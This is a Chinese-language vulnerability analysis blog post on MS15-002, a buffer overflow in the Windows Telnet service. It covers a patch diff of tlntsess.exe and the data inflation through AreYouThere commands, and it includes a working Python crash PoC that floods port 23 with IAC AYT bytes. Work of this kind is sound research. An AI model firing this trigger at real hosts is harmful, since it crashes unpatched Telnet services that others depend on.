





# MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造 

2015/01/16 9:09 | [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布") | [二进制安全](http://drops.wooyun.org/category/binary "查看 二进制安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 漏洞原理分析

* * *

MS15-002 是微软 telnet 服务中的缓冲区溢出漏洞，下面对其原理进行分析并构造 POC。

telnet 服务进程为 tlntsvr.exe，针对每一个客户端连接会相应启动执行一个 tlntsess.exe 进程，补丁修补的是 tlntsess.exe 文件，通过补丁比对，确定漏洞位置如下，函数为

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```



补丁前，该函数分别为：



补丁后，该函数为：



也就是说原来一个缓冲区变成了两个，调用完

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

之后，先对缓冲区中的数据长度进行判断，如果

```
(unsigned int)(v9 - (unsigned __int8 *)&Src - 1) <= 0x7FE 

```

则判断目标缓冲区中可容纳字符的个数，如果

```
(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800

```

则退出，否则执行

```
memcpy_s(v14, (char *)&v18 - (_BYTE *)v14, &Src, v9 - (unsigned __int8 *)&Src)

```

将数据拷贝到 Dst 缓冲区。

而补丁前，只有一个缓冲区，调用

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

之前，先对缓冲区中的数据长度进行判定，只有当 v13 - &Src <= 2048 时才调用，v13 指向可用的缓冲区头部，而

```
(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)

```

处调用的函数，会对 v13 的值进行修改，如果调用

```
void __thiscall CRFCProtocol::DoTxBinary(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

函数，可以看到函数修改了参数 3 的值，即*a3 += 3。



经过分析可以知道，如果 v13 - &Src =2047，则满足 v13 - &Src <= 2048 条件，此时如果(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)调用的是 CRFCProtocol::DoTxBinary 函数，且执行到了如下指令序列时，显然导致了缓冲区溢出。

```
v7 = *a3;
*v7 = -1;
v7[1] = -3;
v7[2] = a4;
v7[3] = 0;
*a3 += 3;

```

补丁后的版本，采用两个缓冲区，将临时缓冲区指针 v9 传递给

```
(*(void (__thiscall **)(CRFCProtocol *, unsigned __int8 **, unsigned __int8 **, unsigned __int8))((char *)&off_1011008 + v12))(v2,&v13,&v9,v6)

```

函数返回后判断 v9 指向的缓冲区中的数据长度，最后判断目的缓冲区剩余可用空间是否可以容纳 v9 指向的缓冲区中的数据，即对(unsigned int)((char *)v14 + v7 - (_DWORD)&Dst) >= 0x800 的判断。

## 0x01 环境搭建与 POC 构造

* * *

Win7 上安装并启动 telnet 服务端，执行 net user exp 123456 /ADD 增加用户 exp，通过 net localgroup TelnetClients exp /ADD 将该用户添加至 TelnetClients 组，这样就能够通过 telnet 客户端进行登录了。

调试发现

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket(CRFCProtocol *this, unsigned __int32 *a2)

```

中*a2 为接收到的数据的长度，最大为 0x400，v6 指向接收到的数据，显然为了触发溢出，必须在调用(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)时，让数据出现膨胀，保证处理过后的 Src 缓冲区中的数据长度大于 0x800。


查看(*(&off_1011008 + 3 * v7))(v3, &v14, &v13, *v6)处可以调用的函数，

```
void __thiscall CRFCProtocol::AreYouThere(CRFCProtocol *this, unsigned __int8 **a2, unsigned __int8 **a3, unsigned __int8 a4)

```

显然会导致数据膨胀，a4 是接收到的数据中的一个字节，执行后，a3 指向的缓冲区中将写入 9 字节的固定数据。


通过 wireshark 截包，简单对协议进行分析，构造 POC 如下，让程序多次执行 CRFCProtocol::AreYouThere 函数，最终触发异常。

```
import socket  
address = ('192.168.172.152', 23)  
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
s.connect(address)
data = "\xff\xf6" * 0x200
s.send(data) 
s.recv(512)  
s.close()

```

运行 poc，在

```
signed int __thiscall CRFCProtocol::ProcessDataReceivedOnSocket( CRFCProtocol *this, unsigned __int32 *a2)

```

处设置断点，中断后可以看到*a2 = 0x400，*(DWORD*)(*(DWORD*)(this+0x1E40)+ 0x16c8)指向接收到得数据。



在函数返回前设置断点，执行之后，可以看到 __security_check_cookie 检测到了栈溢出，触发了异常，中断到调试器。


版权声明：未经授权禁止转载 [cssembly](http://drops.wooyun.org/author/cssembly "由 cssembly 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [PHP 中的内存破坏漏洞利用（CVE-2014-8142 和 CVE-2015-0231）（连载之第一篇）](http://drops.wooyun.org/papers/4864)
*   [uctf-杂项题目分析](http://drops.wooyun.org/tips/3349)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [逆向基础（八）](http://drops.wooyun.org/tips/2451)